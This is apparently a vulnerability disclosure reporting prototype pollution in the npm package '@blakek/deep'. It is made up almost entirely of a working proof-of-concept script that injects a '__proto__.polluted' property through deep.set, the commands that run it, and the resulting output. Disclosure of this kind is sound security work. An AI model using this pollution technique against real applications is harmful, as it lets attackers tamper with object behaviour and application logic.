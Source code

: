 # Description

`@blakek/deep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deep = require("@blakek/deep")
var obj = {}
console.log("Before : " + obj.polluted);
deep.set('Yes! Its Polluted', '__proto__.polluted', obj);
console.log("After : " + obj.polluted);
```


2. Execute the following commands in terminal:

```
npm i @blakek/deep # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
